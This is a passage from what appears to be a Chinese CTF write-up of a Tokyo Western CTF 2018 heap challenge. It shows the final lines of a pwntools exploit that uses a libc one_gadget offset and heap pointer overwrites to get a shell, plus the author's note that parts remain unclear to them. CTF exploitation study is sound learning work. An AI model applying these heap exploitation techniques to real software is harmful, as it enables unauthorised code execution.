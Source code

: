     [ fb 1 ] 0x7f7f7abb2b30  -> [ 0x56296bec31d0 ] (48)
    '''
    one = libc_base + 0x4526a
    buy('A' * 8 + p64(one),1)
    
    grill(p64(heap_base+0x150).ljust(64,'\x00'),1)
    io.interactive()
    
虽然看着[大佬的wp][1]做的但是有些地方还是不太懂：
1.倒数第二个grill那里
2.最后一步getshell
不想了，先吃饭


  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/